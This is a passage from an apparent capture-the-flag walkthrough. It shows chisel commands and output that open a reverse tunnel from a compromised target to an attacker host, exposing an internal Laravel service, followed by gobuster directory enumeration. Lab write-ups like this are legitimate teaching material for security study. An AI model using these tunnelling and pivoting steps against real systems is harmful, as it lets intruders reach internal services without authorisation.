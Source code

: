 Interesting service running on `localhost:8000`.

Use [`chisel`](https://github.com/jpillora/chisel) to create a reverse port forward tunnel from the attacker's port 8000 to the target's `localhost:8000`.

Attacker machine:

```bash
$ ./chisel server --port 8001 --reverse
2021/09/13 16:11:56 server: Reverse tunnelling enabled
2021/09/13 16:11:56 server: Fingerprint Psszvjj2hLYexKQ1GrdJvfHffICS9cgw33F0092z7Js=
2021/09/13 16:11:56 server: Listening on http://0.0.0.0:8001
2021/09/13 16:11:59 server: session#1: tun: proxy#R:8000=>localhost:8000: Listening
```

Target machine:

```bash
$ ./chisel client 10.10.14.88:8001 R:8000:localhost:8000
2021/09/13 16:11:46 client: Connecting to ws://10.10.14.88:8001
2021/09/13 16:11:59 client: Connected (Latency 19.117196ms)
```

Browse to localhost 8000 on the attacker's machine. It is hosting a Laravel web application, version `Laravel v8 (PHP v7.4.18)`.

![](images/Pasted%20image%2020210913165026.png)

Use `gobuster` to discover content on the web application.

```bash
$ gobuster dir -u http://127.0.0.1:8000 -w /usr/share/wordlists/raft-small-words.txt
```

There is a path `/profiles` that displays a debugging page.

